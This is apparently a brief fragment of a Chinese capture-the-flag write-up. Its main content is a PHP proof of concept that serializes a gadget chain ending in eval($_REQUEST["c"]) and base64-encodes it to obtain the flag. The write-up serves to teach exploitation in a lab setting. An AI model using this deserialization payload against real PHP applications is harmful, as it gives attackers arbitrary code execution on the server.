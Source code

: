 编写POC：

| <?phpclass Gema {protected $xbx = 'assert';}// AAAAAAAAAAAAAAclass This {protected $formatters = ['dispatch' => 'obj...'];public function __construct($obj){$this -> formatters['dispatch'] = $obj;}}class Easy{protected $events;protected $event = [1 => ['eval($_REQUEST["c"])']];public function __construct($obj){$this -> events = $obj;}}$obj = new Easy(new This(new Gema()));echo base64_encode(serialize($obj)); |

获取Flag：

![](img/b02ab66d4baa433b4e40fbfea38d1bc2.png)